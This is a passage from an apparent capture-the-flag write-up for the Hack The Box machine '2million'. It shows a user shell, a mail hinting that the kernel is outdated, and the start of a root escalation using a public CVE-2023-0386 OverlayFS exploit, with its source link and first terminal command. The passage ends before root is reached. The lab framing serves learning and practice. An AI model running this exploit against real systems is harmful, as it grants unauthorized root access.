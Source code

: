 ```
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ ls -la
total 32
drwxr-xr-x 4 admin admin 4096 Jun  6 10:22 .
drwxr-xr-x 3 root  root  4096 Jun  6 10:22 ..
lrwxrwxrwx 1 root  root     9 May 26 22:53 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26 22:53 .bash_logout
-rw-r--r-- 1 admin admin 3771 May 26 22:53 .bashrc
drwx------ 2 admin admin 4096 Jun  6 10:22 .cache
-rw-r--r-- 1 admin admin  807 May 26 22:53 .profile
drwx------ 2 admin admin 4096 Jun  6 10:22 .ssh
-rw-r----- 1 root  admin   33 Jun 25 16:23 user.txt
admin@2million:~$ 
```
# Escalating to root
Reading the mail directory uncovered a hint suggesting the machine is outdated and vulernable to a kernel exploit. 

```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
## CVE-2023-0386 - OverlayFS
Source: https://github.com/xkaneiki/CVE-2023-0386

Exploit gives compile instructions and requires two terminals to be open. A command is run in each terminal and it should grant root access.

Terminal 1:
```
admin@2million:~/CVE-2023-0386$ ls
Makefile  README.md  exp  exp.c  fuse  fuse.c  gc  getshell.c  ovlcap  test
admin@2million:~/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```
